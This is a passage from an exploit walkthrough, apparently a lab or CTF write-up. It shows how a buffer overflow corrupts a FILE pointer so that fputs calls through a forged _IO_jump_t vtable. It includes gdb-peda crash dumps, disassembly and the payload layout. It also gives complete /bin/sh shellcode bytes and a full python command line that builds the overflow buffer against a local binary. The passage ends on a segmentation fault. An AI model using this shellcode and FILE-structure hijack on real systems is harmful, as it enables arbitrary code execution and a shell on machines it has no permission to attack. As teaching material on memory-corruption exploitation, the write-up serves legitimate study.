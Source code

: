 ```shell
0024| 0xbfffe768 --> 0xbfffeba3 --> 0x414141b7 
0028| 0xbfffe76c --> 0xb7fc0000 --> 0x1a9da8 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0xb7e7a140 in __GI__IO_fputs (str=0xbfffeb9a "AAAAAA\240\372\373\267AAAAAAAA\f\353\377\277", fp=0xbfffeb0c) at iofputs.c:40
40  iofputs.c: No such file or directory.
```
I guess it should execute the function whose address was in _IO_jump_t table. However we didn't provide the proper address, the program crashed. 

Let's see how the program get the address saved in _IO_jump_t:
```shell
gdb-peda$ x/10i __GI__IO_fputs+134
   0xb7e7a126 <__GI__IO_fputs+134>: movsx  eax,BYTE PTR [esi+0x46]
   0xb7e7a12a <__GI__IO_fputs+138>: mov    eax,DWORD PTR [esi+eax*1+0x94]  [#1]
   0xb7e7a131 <__GI__IO_fputs+145>: mov    ecx,DWORD PTR [esp+0x30]
   0xb7e7a135 <__GI__IO_fputs+149>: mov    DWORD PTR [esp+0x8],edi
   0xb7e7a139 <__GI__IO_fputs+153>: mov    DWORD PTR [esp],esi
   0xb7e7a13c <__GI__IO_fputs+156>: mov    DWORD PTR [esp+0x4],ecx
=> 0xb7e7a140 <__GI__IO_fputs+160>: call   DWORD PTR [eax+0x1c]   [#2]
   0xb7e7a143 <__GI__IO_fputs+163>: cmp    edi,eax
   0xb7e7a145 <__GI__IO_fputs+165>: jne    0xb7e7a190 <__GI__IO_fputs+240>
   0xb7e7a147 <__GI__IO_fputs+167>: mov    edx,0x1
```
ESI points to our fake FILE structure. What we concern about is line #1 which will get the address of _IO_jump_t: first to get the byte value from [esi+0x46]. According to the source code of fputs, it should be the _vtable_offset field of FILE structure. Then to get the address of _IO_jump_t: generally, eax should equal 0, but in our exploit, we let eax equals 8. And next the program will push the args into stack and call _IO_file_xsputn in line #2. It's perfectly match the structure of _IO_jump_t where _IO_file_xsputn is at the offset 0x1c.

So finally, the content of input buffer is:
{ padding }--->{ shellcode_address }--->{ shellcode }--->{ padding }--->{ fake FILE structure }--->{ _IO_jump_t address }--->{ fake FILE pointer }

```
buffer-->0xbfffe79a
FFSS-->0xbfffeb0c
sc_addr-->0xbfffe7bc
shellcode: \x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80
```

Now let's exploit the program:

```shell
gdb-peda$ r "`python -c 'print "aa"+"b"*28 + "BBBB" + "\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"+"a"*824+"\x86\x20\xad\xfbAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc0\x1a\xfc\xb7\x02AAAAAAA\xff\xff\xff\xffAA\x08A\x8c\x18\xfc\xb7\xff\xff\xff\xff\xff\xff\xff\xffAAAAA\x1a\xfc\xb7AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\xfa\xfb\xb7AAAA\x9c\xe7\xff\xbf"+"\x0c\xeb\xff\xbf"'`"
Starting program: /home/wolfzhang/Desktop/file "`python -c 'print "aa"+"b"*28 + "BBBB" + "\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"+"a"*824+"\x86\x20\xad\xfbAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc0\x1a\xfc\xb7\x02AAAAAAA\xff\xff\xff\xffAA\x08A\x8c\x18\xfc\xb7\xff\xff\xff\xff\xff\xff\xff\xffAAAAA\x1a\xfc\xb7AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\xfa\xfb\xb7AAAA\x9c\xe7\xff\xbf"+"\x0c\xeb\xff\xbf"'`"
len: 1042

Program received signal SIGSEGV, Segmentation fault.

 [----------------------------------registers-----------------------------------]
EAX: 0xbfffe79c ('b' <repeats 28 times>, "BBBBj\vX1\366Vh//shh/bin\211\343\061ɉ\312̀", 'a' <repeats 144 times>...)
EBX: 0xb7fc0000 --> 0x1a9da8 
```